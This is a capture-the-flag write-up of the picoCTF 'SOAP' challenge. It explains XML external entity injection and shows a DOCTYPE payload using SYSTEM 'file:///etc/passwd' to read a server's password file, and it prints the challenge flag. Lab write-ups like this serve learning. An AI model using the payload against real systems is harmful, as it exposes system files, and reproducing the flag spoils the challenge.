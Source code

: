 # SOAP

## Objective
- To inject an external entity to read the /etc/passwd file

## Initial Observations
-`xmlDetailsCheckPayload.js` file
```
window.contentType = 'application/xml';

function payload(data) {
    var xml = '<?xml version="1.0" encoding="UTF-8"?>';
    xml += '<data>';

    for(var pair of data.entries()) {
        var key = pair[0];
        var value = pair[1];

        xml += '<' + key + '>' + value + '</' + key + '>';
    }

    xml += '</data>';
    return xml;
}
```
- Hint: XML external entity Injection

## Approach
- Having zero idea about XML external entity Injection, I decide to research first  
- On clicking details:
 ![alt text](images/image-15.png)
 The following request gets sent:
 ![alt text](images/image-14.png)
 The response:
 ![alt text](images/image-20.png)
- for all the 3 different details buttons, only the value of `<ID>` changes.
- 1 for the first button, 2 for the second, 3 for the third
- Inserted an external entity (its like a variable which can store information or fetch information from files)
 ```
<!DOCTYPE data [
    <!ENTITY xxe "2">
]>
```
- Appending this to define an entity which stores the value "2".

- Now if we change the value of `xxe` we will get different responses
- If we set it to 1
![alt text](images/image-16.png)
- If we set it to 2
![alt text](images/image-17.png)
- If we set it to 3
![alt text](images/image-18.png)

#### we get the same response when sending an entity which contains appropriate value compared to just sending in the value

- Similarly, we can use the xxe entity to access the /etc/passwd file
```
<!DOCTYPE data [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```
- the `SYSTEM` here signifies that we are refering to an external resource (file or url)
- When we don't use `SYSTEM` we are referring to static values like "2" or "3"
![alt text](images/image-19.png)

## Flag
picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}
